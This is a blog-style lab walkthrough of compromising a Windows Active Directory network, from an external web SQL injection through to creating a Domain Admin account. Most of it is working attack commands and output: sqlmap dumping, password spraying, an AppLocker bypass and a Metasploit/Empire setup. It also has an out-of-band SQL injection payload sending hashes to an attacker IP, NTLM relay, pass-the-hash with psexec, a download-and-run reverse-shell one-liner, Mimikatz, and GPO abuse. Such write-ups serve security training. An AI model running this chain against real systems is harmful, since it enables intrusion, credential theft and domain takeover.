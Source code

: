 ```yaml
---
layout: post
title: Active Dirctory Adventures part 1
---
```


Windows Active Directory is a database of network reasorce objects. That proliferates in modern enterprise network architectures.
This post is about going from external client to Domain Controller using some fun tools and tricks.

There is a firewall in place so we scan some likely ports with the no ping (-Pn) option and add increased speed (-T4) and version detection (-sV)


`nmap -T4 -sV -Pn -p80,443 10.7.12.0/24`

![](https://braaaax.github.io/braaaax.github.io/images/lky-nmap.jpg)

We bust the http ports for available directories and find on on 10.7.12.12/mvc, a sales site and uses a backend database to manage its merchandise information.

![](https://braaaax.github.io/braaaax.github.io/images/lky-site.jpg)


The url shows an aspx script that makes a call to the databse to retrieve product information.
We capture the request with Burp Suite and probe this injection point with sqlmap.

![](https://braaaax.github.io/braaaax.github.io/images/lky-mvc-web-req.jpg)

We can use the copy to file function and write the request to procuct.req and then sick sqlmap on it.


`sqlmap -r product.req --level=5 --risk=3`

This proves successful and we are able to dump the entire database. 
Of interest is a table giving Active Directory users fullnames and their respective groups

```

Database: ADConnect
Table: ADUsers
[40 entries]
+------------+-------------+-----------------+
| LastName   | FirstName   | Department      |
+------------+-------------+-----------------+
| Vazquez    | Annie       | Finance         |
| Falcon     | Paul        | Finance         |
| Anthony    | Fae         | Finance         |
| Dillard    | Walter      | Finance         |
| Bradford   | Louis       | Finance         |
| Gage       | Sonya       | Finance         |
| Sanchez    | Alba        | Finance         |
| Branch     | Daniel      | Finance         |
| Cruz       | Christopher | Finance         |
| Johnson    | Nicole      | Finance         |
| Holliday   | Mary        | Human Resources |
| Shoemaker  | Michael     | Human Resources |
| Slater     | Arlene      | Human Resources |
| Prentiss   | Kelsey      | Human Resources |
| Davis      | Ginger      | Human Resources |
| McDaniel   | Johnny      | Human Resources |
| Jones      | James       | Human Resources |
| Garcia     | Thomas      | Human Resources |
| Harrison   | Melissa     | Human Resources |
| Hight      | Nicholas    | Human Resources |
| Baird      | William     | Marketing       |
| Ochoa      | Michelle    | Marketing       |
| Hopkins    | Joshua      | Marketing       |
| Blea       | Howard      | Marketing       |
| Pennington | Clara       | Marketing       |
| Glen       | David       | Marketing       |
| Hartsfield | Kim         | Marketing       |
| Ramirez    | Rita        | Marketing       |
| Hafner     | Opal        | Marketing       |
| Matthews   | Louie       | Marketing       |
| Okeefe     | Lee         | Sales           |
| Burrows    | Roger       | Sales           |
| Steele     | Charles     | Sales           |
| Wallace    | Juan        | Sales           |
| Lewis      | Donita      | Sales           |
| Santiago   | Juanita     | Sales           |
| Shepherd   | Wesley      | Sales           |
| Brown      | Steven      | Sales           |
| Wilson     | Johnny      | Sales           |
| May        | Juan        | Sales           |
+------------+-------------+-----------------+

```

Dirbusting the other open http/s ports we find /rdweb access ie remote dsktop web access. 
If we can derive the correct username given the full names of the AD users we can test weak passwords with the rdweb login.

![](https://braaaax.github.io/braaaax.github.io/images/lky-rdweb-login.jpg)

For this one can use a tool like burp intruder:
enter "LAB/USERNAME" and "PASSWORD" into the login field and capture with burp/zap proxy:


Intruder: 
*  you can use the "cluster bomb" attack
*  remove the placeholders save for the the two USERNAME fields and the the PASSWORD field
*  we are relating payloads to a given placeholder here so use the userlist you created for placeholder1 and copy that lost for paload 2 and use a password list for payload 3
*  make sure to Always Follow Redirection in the options tab


![](https://braaaax.github.io/braaaax.github.io/images/lky-burp-intruder.jpg)


```python

import csv
with open("/root/.sqlmap/output/10.7.12.12/dump/ADConnect/ADUsers.csv") as csvfile:
    reader = csv.DictReader(csvfile)
    for row in reader:
        print('{}{}'.format(row['FirstName'][0].lower(), row['LastName'].lower()))

```

Passords List:
Summer2017!
Winter2017!
Fall2017!
Spring2017!
Summer2018!
Winter2018!
Fall2018!
Spring2018!


User Credentials Found:
avazquez:Spring2017!
mholliday:Summer2017!
wbaird:Autum2017!

We attempt a login with LAB\avazquez, and success!
![](https://braaaax.github.io/braaaax.github.io/images/lky-valid-login.jpg)

We don't want the rdweb and its two applications, we want the full experience. So we log into Annie's account with remmina.
![](https://braaaax.github.io/braaaax.github.io/images/lkys-remmina.jpg)


We can see Windows Defender and Applocker are preventing us from executing most things (Applocker includes AMSI). Pasting the contents of [applocker-bypass-checker.ps1](https://github.com/barryclark/jekyll-now) into notepad and saving as a .ps1 file allows us to sidestepp Defender momentarilly. Running shows us the \windows\Tasks, \windows\tracing\, \windows\system32\spool\drivers\color allow "BUILTIN\USERS" write/createFiles & execute auth.

![](https://braaaax.github.io/braaaax.github.io/images/lky-Applocker-Bypass.png)

![](https://braaaax.github.io/braaaax.github.io/images/lky-constrained-PS.png)

![](https://braaaax.github.io/braaaax.github.io/images/lky-powershdll.png)

We use Shellter to trick Applocker further by "rewiring" nc.exe to call to a waiting metasploit listener. 

![](https://braaaax.github.io/braaaax.github.io/images/lky-brax-exe.png)
![](https://braaaax.github.io/braaaax.github.io/images/lky-msf-01.png)

Going from msf to empire (via Chryzsh):
In Empire:
create a default http listener named "http"
*  uselistener http
*  set Host 10.7.253.10
*  set Port 4444
*  execute

create copy launcher, created w/o base64
*  back
*  usestager multi/launcher
*  set Base64 false
*  generate

In MSF:
*  load powershell
*  powershell_shell
*  paste listener and execute await agent in empire

With empire we can enumerate the system easilly:

>ComputerName
>------------
>DC01
>WS03
>FS01
>MX01
>WEB01
>WS05
>RDS02
>SQL01



Discover a helpful VPN to facilitate internal access to the interior subnet to avoid lots of proxies. Alternative methods would be to use Inveigh.
`//FS01.lab.local/GroupData/LabUserVPN.ovpn`



Out of band SQLi
We have an injection point from step one. To prompt the hash of the owner of the sql db to be sent to responder we need to instigat a DNS query to our IP. We are requesting data be sent via HTML, SMB, or DNS. With MSSQL we use `master..xp_dirtree` (MySQL: LOAD_FILE()). Supplying a hostname to these functions will cause a DNS lookup to occur. We're not interested in successful transmission of the information but the target user with send their netNTLMv2 hash along with their request to our machine. [Futher Reading] (https://www.gracefulsecurity.com/sql-injection-out-of-band-exploitation/)

```
/mvc/Product.aspx?ProductSubCategoryId=18;declare @q varchar(99);set @q='\\10.8.254.14\test1'; exec master.dbo.xp_dirtree @q
/mvc/Product.aspx?ProductSubCategoryId=18;declare%20@q%20varchar(99);set%20@q=%27\\10.8.254.14\test1%27;%20exec%20master.dbo.xp_dirtree%20@q
```


We can use responder and ntlnrelayx to dump hashes
`./Responder.py -I tun1 -wrf` 
  -disable http/s and smb
`./ntlmrelayx.py -tf ~/lkys37en-lab/labnotes/targets.txt`


`./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e8bcd502fbbdcd9379305dca15f4854e administrator@10.8.14.14`

Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies

```
[*] Requesting shares on 10.8.14.14.....
[*] Found writable share ADMIN$
[*] Uploading file JkqJuZDF.exe
[*] Opening SVCManager on 10.8.14.14.....
[*] Creating service HPPN on 10.8.14.14.....
[*] Starting service HPPN.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

System on sql01 then use token impersonation to get to bdavis

GPO Enumeration:
`Get Group Policy Objects`

`Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}`

`Get-NetGPO -DisplayName MailServer-Config | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}`

`Get-NetOU -GUID "{2259E5B0-3B49-4704-98BB-5A9581B54E8E}" | %{Get-NetComputer -ADSpath $_}`

Add "Server Admins" to the below file
`type "\\lab.local\sysvol\lab.local\Policies\{2259E5B0-3B49-4704-98BB-5A9581B54E8E}\MACHINE\Preferences\Groups\Groups.xml"`

`Invoke-GpUpdate -Computer MX01 -Force`

Since BDavis is a user on MX01 we can move laterally via Invoke-Command or just run Mimikatz on the Box.
`Invoke-Command -ComputerName MX01 -ScriptBlock {IEX (New-Object Net.WebClient).DownloadString('http://10.8.254.10/Invoke-PowerShellTcpOneLine.ps1')}`
`Invoke-Command -ComputerName MX01 -ScriptBlock {.\Invoke-Mimikatz.ps1)}`

We get NTLM hashes for BRoss, who is a Domain Admin. With this info we are able to use the Ross account to add us to net users and Domain Admins
We use cme to expoit the hashes and get a shell.


![](https://braaaax.github.io/braaaax.github.io/images/lky-cme-screenshot.png)

`net user brax password /add /domain`
`net group "Domain Admins" /add brax /domain`
`net group "Remote Desktop Users" /add lab\brax /domain`

[Jekyll Now repository](https://github.com/barryclark/jekyll-now) on GitHub.
